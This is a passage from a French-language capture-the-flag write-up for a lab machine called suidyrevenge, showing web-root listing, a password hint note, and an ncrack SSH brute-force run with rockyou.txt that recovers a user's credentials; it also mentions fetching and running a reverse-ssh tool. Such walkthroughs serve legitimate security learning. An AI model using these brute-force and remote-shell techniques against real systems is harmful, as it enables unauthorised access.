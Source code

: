 Suspense... ça fonctionne ! J'ai donc rapatrié et exécuté un `reverse-ssh`.

### Brute et re-brute

Je découvre un message laissé dans la racine web :

```console
www-data@suidyrevenge:/var/www/html$ ls -al
total 20
drwxr-xr-x 3 root     root     4096 Oct  1  2020 .
drwxr-xr-x 3 root     root     4096 Oct  1  2020 ..
-rw-r--r-- 1 root     root      322 Oct  1  2020 index.html
-rw-r--r-- 1 www-data www-data   79 Oct  1  2020 murdanote.txt
drwxr-xr-x 2 root     root     4096 Oct  1  2020 supersecure
www-data@suidyrevenge:/var/www/html$ cat murdanote.txt
I always lost my password so Im using 
one password from rockyou.txt !

-murda
```

Cet utilisateur est un peu étrange : l'obtention d'information sur ses fichiers done peu d'infos. On se demande comment le compte a été créé.

```console
www-data@suidyrevenge:/home$ ls murda/ -al
ls: cannot access 'murda/.local': Permission denied
ls: cannot access 'murda/.bashrc': Permission denied
ls: cannot access 'murda/.bash_logout': Permission denied
ls: cannot access 'murda/.Xauthority': Permission denied
ls: cannot access 'murda/.bash_history': Permission denied
ls: cannot access 'murda/.profile': Permission denied
ls: cannot access 'murda/..': Permission denied
ls: cannot access 'murda/.': Permission denied
ls: cannot access 'murda/secret.txt': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
-????????? ? ? ? ?            ? .Xauthority
-????????? ? ? ? ?            ? .bash_history
-????????? ? ? ? ?            ? .bash_logout
-????????? ? ? ? ?            ? .bashrc
d????????? ? ? ? ?            ? .local
-????????? ? ? ? ?            ? .profile
-????????? ? ? ? ?            ? secret.txt
```

On peut toutefois s'en tenir à l'indice et brute-forcer avec RockYou :

```console
$ ncrack -v --user murda -P rockyou.txt ssh://192.168.56.102

Starting Ncrack 0.8 ( http://ncrack.org ) at 2025-05-19 17:08 CEST

Discovered credentials on ssh://192.168.56.102:22 'murda' 'iloveyou'
```
